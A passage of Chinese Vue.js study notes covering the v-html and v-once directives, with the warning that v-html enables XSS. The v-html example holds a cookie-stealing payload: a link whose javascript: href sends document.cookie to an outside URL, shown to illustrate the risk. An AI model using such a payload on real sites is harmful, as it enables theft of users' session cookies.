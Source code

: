 ```vue
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

**总结：**

```txt
v-html指令：
      1.作用：向指定节点中渲染包含html结构的内容。
      2.与插值语法的区别：
               (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
               (2).v-html可以识别html结构。
      3.严重注意：v-html有安全性问题！！！！
               (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
               (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
```



#### 2.10.3.v-once指令

​	`v-once`指令是将网页在初次渲染后，就视为静态内容了，并不再改变。以下图为例：我们有一个初始值`n`为1，点击按钮`n+1`，但初始值不改变：

<img src="https://gitee.com/zou_tangrui/note-pic/raw/master/img/202302171627929.png" alt="image-20230202113409928" style="zoom:50%;" />

```vue
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3 v-once>初始化n的值为：{{n}}</h3>
            <h3>点击后n的值为：{{n}}</h3>
            <button @click="n++">点击n+1</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            n:1
                        }
                        
                })
        </script>
</body>
</html>
```
